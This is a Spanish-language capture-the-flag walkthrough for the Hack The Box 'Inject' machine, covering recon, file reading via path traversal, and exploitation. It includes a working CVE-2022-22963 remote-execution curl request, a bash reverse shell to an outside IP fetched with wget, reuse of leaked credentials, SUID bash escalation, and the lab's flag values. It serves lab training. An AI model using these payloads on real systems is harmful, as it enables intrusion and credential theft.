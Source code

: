 ```yaml
---
title: Inject HTB walkthrough
date: 2023-04-03
published: false
---
```


# Inject HTB walkthrough

## Reconocimiento

Comenzamos buscando puertos abiertos con nmap:

```java
sudo nmap -sS -p- --open --min-rate 5000 -n -Pn 10.10.11.204
```
```java
Not shown: 65223 closed ports, 310 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
```

Aplicamos una búsqueda en profundidad de dichos puertos:

```java
sudo nmap -sVC -p22,8080 -n -Pn 10.10.11.204
```
```java
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
8080/tcp open  nagios-nsca Nagios NSCA
|_http-title: Home
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Nos llama la atención el servicio del puerto `8080`, se trata de [[nagios]], un software de monitorización. Si tratamos de conectarnos por el navegador a `http://ip:8080`, nos encontramos una página web donde nos llama la atención una página de *uploads*, en la que sólo se admiten imágenes.

Tras probar varias cosas, descubrimos que existe una vulnerabilidad a [[LFI]] y [[directory traversal]] en el parámetro `img` de `http://ip/show-image?img=`. Utilizando [[burpsuite]] para mandar las peticiones y *url-encodear* el valor de `img`, podemos listar por ejemplo el `/etc/passwd`:

```txt
root:x:0:0:root:/root:/bin/bash
[...]
frank:x:1000:1000:frank:/home/frank:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
phil:x:1001:1001::/home/phil:/bin/bash
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
_laurel:x:997:996::/var/log/laurel:/bin/false
```

Donde vemos tres usuarios potenciales: `root`, `phil` y `frank`.

Sin embargo, no hay muchos más archivos del sistema a los que podamos acceder, por lo que accedemos a `/var/www` para tratar de buscar archivos de configuración de la propia aplicación web. Vemos el directorio `WebApp`, donde encontramos un archivo `pom.xml`:

```xml
[...]
<dependency>
	<groupId>org.springframework.cloud</groupId>
	<artifactId>spring-cloud-function-web</artifactId>
	<version>3.2.2</version>
</dependency>
[...]
```

Podemos identificar una versión desactualizada de *spring cloud*, la `3.2.2`, y con una rápida búsqueda en internet encontramos el siguiente CVE: [CVE-2022-22963](https://github.com/me2nuk/CVE-2022-22963).

## Explotación

La vuln permite Ejecución remota de comandos, mediante el envío de ciertas peticiones POST:

```bash
sudo curl -X POST  http://10.10.11.204:8080/functionRouter -H 'spring.cloud.function.routing-expression:T(java.lang.Runtime).getRuntime().exec("COMANDO")' --data-raw 'data' -v
```

De esta forma, podemos tratar de enviar una simple *reverse shell* (ver [[Reverse shells]]) en bash:

```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.16.68/1234 0>&1
```
```bash
#Montamos un server http en python en nuestra maquina
sudo python3 -m http.server 11111
```
```bash
#Ejecutamos el siguiete comando para descargarla en el servidor
wget http://nuestra-ip:11111/shell.sh -P /var/www/
```
```bash
#Nos ponemos en escucha en nuestra maquina con netcat
nc -lvnp 1234
```
```bash
#Y la ejecutamos con
bash /var/www/shell.sh
```

Y deberíamos recibir una *bash* por [[netcat]], con la sesión del usuario `frank`. En este punto podríamos aplicar un [[Tratamiento de la tty]] para mejorar la shell. Sin embargo lo importante es ir al `/home/frank` y acceder al directorio `.m2` y listar el `settings.xml`:

```bash
bash-5.0$ whoami
frank
bash-5.0$ cd
bash-5.0$ ls -la
total 164
drwxr-xr-x 6 frank frank   4096 Apr  4 16:19 .
drwxr-xr-x 4 root  root    4096 Feb  1 18:38 ..
lrwxrwxrwx 1 root  root       9 Jan 24 13:57 .bash_history -> /dev/null
-rw-r--r-- 1 frank frank   3786 Apr 18  2022 .bashrc
drwx------ 2 frank frank   4096 Feb  1 18:38 .cache
drwx------ 2 frank frank   4096 Apr  4 16:19 .gnupg
-rwxr-xr-x 1 frank frank 134168 Feb 16 23:02 linpeas.sh
drwxr-xr-x 3 frank frank   4096 Feb  1 18:38 .local
drwx------ 2 frank frank   4096 Feb  1 18:38 .m2
-rw-r--r-- 1 frank frank    807 Feb 25  2020 .profile
bash-5.0$ cd .m2
bash-5.0$ ls
settings.xml
bash-5.0$ cat settings.xml
<?xml version="1.0" encoding="UTF-8"?>
<settings xmlns="http://maven.apache.org/POM/4.0.0" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
        xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 https://maven.apache.org/xsd/maven-4.0.0.xsd">
  <servers>
    <server>
      <id>Inject</id>
      <username>phil</username>
      <password>DocPhillovestoInject123</password>
      <privateKey>${user.home}/.ssh/id_dsa</privateKey>
      <filePermissions>660</filePermissions>
      <directoryPermissions>660</directoryPermissions>
      <configuration></configuration>
    </server>
  </servers>
</settings>
```

Entre otras cosas veremos las credenciales del usuario *phil* (`phil:DocPhillovestoInject123`).

Tras intentar conectarnos por ssh, vemos que no es posible, por lo que tratamos de *loguearnos* con `su`:

```bash
su phil
Password: DocPhillovestoInject123
bash-5.0$ whoami
phil
```

Ya podemos obtener la flag de usuario, entramos a `/home/phil/` y listamos el archivo `user.txt`:

```bash
bash-5.0$ cd
cd
bash-5.0$ ls
ls
user.txt
bash-5.0$ cat user.txt
cat user.txt
0ce94b47eb49d4c232a927f7309819b0
```

Enhorabuena! Ya tenemos la flag de usuario: `0ce94b47eb49d4c232a927f7309819b0`.

## Escalada de privilegios

Al buscar vias de escalar privilegios vemos que el binario de bash, `/bin/bash` tiene activado privilegios *SUID*, por lo que si ejecutamos `/bin/bash -p`, obtendremos una sesión como root. Ya podemos listar el contenido de `/root/root.txt` (`46160a960fef7eab6d493ff89743dc2f`). Enhorabuena! Has resuelto la máquina!

